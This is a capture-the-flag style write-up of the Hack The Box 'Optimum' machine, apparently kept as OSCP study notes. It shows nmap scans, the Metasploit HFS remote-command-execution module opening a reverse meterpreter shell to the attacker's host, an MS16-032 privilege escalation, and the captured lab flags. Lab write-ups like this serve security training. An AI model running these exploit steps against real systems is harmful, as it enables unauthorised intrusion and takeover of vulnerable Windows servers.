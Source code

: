 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Optimum
tags: ["metasploit"]
---
```

**Start 20:50 13-08-2024**

---
```
10.10.10.8
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.8                                   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 19:53 IST
Nmap scan report for 10.10.10.8
Host is up (0.085s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT 10.10.10.8
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 19:53 IST
Nmap scan report for 10.10.10.8
Host is up (0.085s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.85 seconds
```

We found that `HttpFileServer 2.3` is vulnerable and that there is a `metasploit` module for it.

## Metasploit

Simply `search` for the module as follows:

```bash
msf6 > search HttpFileServer 2.3

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Afterwards we can `show options` and configure the `RHOSTS` and `LHOST`, then `run` the exploit.

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.14.24
LHOST => 10.10.14.24
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.24:4444 
[*] Using URL: http://10.10.14.24:8080/XnYaQ5x
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /XnYaQ5x
[*] Sending stage (176198 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\jbpsNfCvnjv.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.14.24:4444 -> 10.10.10.8:50065) at 2024-08-13 19:56:39 +0100
[*] Server stopped.

meterpreter > shell
Process 1196 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

### user.txt
User flag will be found in the same directory where the shell spawns.
```powershell
C:\Users\kostas\Desktop>type user.txt
type user.txt
d0c39409d7b994a9a1389ebf38ef5f73
```

## Privilege Escalation
Before moving on we need to `systeminfo` to enumerate the machine.
```powershell
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ��
System Boot Time:          9/8/2024, 10:02:16 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.411 MB
Virtual Memory: Max Size:  4.799 MB
Virtual Memory: Available: 4.092 MB
Virtual Memory: In Use:    707 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

We now need to `background` our current session, choose another module then run that module on our current session. 

```powershell
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.24:4444 
[+] Compressed size: 1160
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\PLHKKmfm.ps1...
[*] Compressing script contents...
[+] Compressed size: 3741
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2104
</SNIP>

[+] Deleted C:\Users\kostas\AppData\Local\Temp\PLHKKmfm.ps1

meterpreter > shell
Process 1508 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

### root.txt

Then we yet again find the root flag in the Desktop directory.
```powershell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```


---

**Finished 21:15 13-08-2024**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
